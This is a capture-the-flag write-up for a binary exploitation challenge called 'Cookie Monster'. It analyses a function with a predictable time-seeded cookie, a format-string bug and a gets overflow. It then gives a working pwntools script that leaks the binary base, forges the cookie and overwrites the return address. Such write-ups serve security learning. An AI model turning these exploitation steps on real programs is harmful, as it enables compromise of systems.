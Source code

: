 
# Cookie Monster
> xikhud, 13/04/2020.

## Problem
This is a basic BOF problem.

## Vulnerbility
This function contains 3 vulnerbilities:
```cpp
__int64 conversation()
{
  unsigned int v0; // eax
  int v1; // eax
  char v3; // [rsp+Fh] [rbp-11h]
  char s[8]; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+1Ch] [rbp-4h]

  v0 = time(0LL);
  srand(v0);
  v1 = rand();
  v5 = v1;
  saved_cookie = v1;
  puts("\nOh hello there, what's your name?");
  fgets(s, 8, stdout);
  printf("Hello, ");
  printf(s);
  puts("\nWould you like a cookie?");
  gets(&v3);
  return check_cookie(v5);
}
```

 - First, this function uses `time(0)`, which is predictable.
 - Second, this function uses `printf` with the non-const variable as the first argument, which leads to format string vulnerbility.
 - Third, the `gets` function is unsafe.

## Solution
 - First, predict the result of `time(0)` to get `saved_cookie`.
 - Then, overwrite two LSB of return address with the two LSB of the function that print the flag.
## Final solution
- `solve.py`
```python
from pwn import *
from sys import argv
from subprocess import check_output
#context.log_level = 'debug'
if len(argv) < 2:
    p = process('./cookie_monster')
else:
    p = remote('ctf.umbccd.io', 4200)

cookie = check_output(['./gen']).strip()
cookie = int(cookie.split()[1])
log.info("Cookie: %d" % cookie)

p.sendlineafter('your name?\n', '%11$lx')
p.recvuntil('Hello, ')
r = p.recvline()[:-1]
r = int(r, 16)
r -= 0x134F
base = r
log.info("base: 0x%X" % r)
shell = 'A'*13 + p32(cookie) + 'S'*8 + p64(base + 0x11B5)
assert '\n' not in shell
p.sendlineafter('cookie?', shell)
p.interactive()
```
- `gen.cpp`
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
int main()
{
    int t = time(0);
    srand(t);
    int a = rand();
    printf("%d %d\n", t, a);
    return 0;
}
```
And the flag is `????`